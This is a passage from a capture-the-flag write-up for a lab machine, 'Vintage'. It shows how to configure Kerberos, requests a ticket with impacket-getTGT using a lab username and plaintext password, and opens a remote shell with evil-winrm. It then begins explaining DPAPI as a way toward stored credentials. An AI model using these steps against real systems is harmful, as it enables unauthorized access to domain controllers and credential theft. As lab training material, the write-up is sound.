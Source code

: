 
----
## Initial access
To be able to winrm on kerberos authentication you need to edit the `/etc/krb5.conf` file where I added the following: 
```sh
[libdefaults]
    default_realm = VINTAGE.HTB
    dns_lookup_realm = false
    dns_lookup_kdc = false

[realms]
    VINTAGE.HTB = {
        kdc = dc01.vintage.htb
        admin_server = dc01.vintage.htb
    }

[domain_realm]
    .vintage.htb = VINTAGE.HTB
    vintage.htb = VINTAGE.HTB

```
(I let chatGPT create it)

Also dont forget to use the ticket for authentication:
```sh
impacket-getTGT vintage.htb/C.Neri:Zer0the0ne -dc-ip dc01.vintage.htb

Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 
[*] Saving ticket in C.Neri.ccache
```

```sh
export KRB5CCNAME=C.Neri.ccache

evil-winrm -i dc01.vintage.htb -r vintage.htb
```


---
## Enumeration

### What is DPAPI?
**DPAPI** (Data Protection API) is a cryptographic API in Windows operating systems that is designed to protect sensitive data, such as passwords, private keys, credentials, etc. It provides applications with the ability to encrypt and decrypt data, while hiding complex encryption operations and sim
lifying the encryption process. DPAPI is designed to ensure that only the current user or system can access the encrypted data.
### How DPAPI works
- **Encryption** : When an application or Windows system needs to store sensitive information, it can encrypt the data through DPAPI. Encryption uses the user's login credentials (such as the user's login password or the computer's key) to generate an encryption key.
- **Decryption** : DPAPI can only decrypt data using the same key in the same user context. This way, if an application or service tries to access encrypted credentials or data, only the currently logged on user or administrator can decrypt and access the information.
- **Security** : DPAPI is based on account authentication information in the Windows operating system, so its encryption key is closely associated with the user's login credentials, ensuring that only specific users can access their own encrypted data.

